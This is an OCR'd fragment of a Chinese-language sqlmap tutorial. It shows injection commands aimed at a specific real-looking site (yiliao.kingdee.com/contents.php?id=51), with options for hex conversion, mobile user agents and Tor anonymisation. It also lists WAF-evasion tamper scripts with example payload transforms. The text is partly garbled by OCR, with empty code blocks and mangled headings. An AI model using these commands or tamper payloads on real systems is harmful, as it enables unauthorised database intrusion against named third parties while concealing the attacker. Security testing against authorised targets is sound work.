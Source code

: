 root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hex#或者使用参数 --no-cast ，进行字符码转换



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --mobile #对移动端的服务器进行注入



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tor # 匿名注入



```

```

***4\***|***0\*****0x03 使用脚本介绍**



```

```

***4\***|***1\*****1 使用格式：**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tamper=A.py,B.py#脚本A，脚本B 



```

```

***4\***|***2\*****2 脚本总类**



```

```

01 apostrophemask.py#用utf8代替引号；Example: ("1 AND '1'='1") '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'



```

```

02 equaltolike.py#MSSQL * SQLite中like 代替等号；Example:  Input: SELECT * FROM users WHERE id=1 ；Output: SELECT * FROM users WHERE id LIKE 1
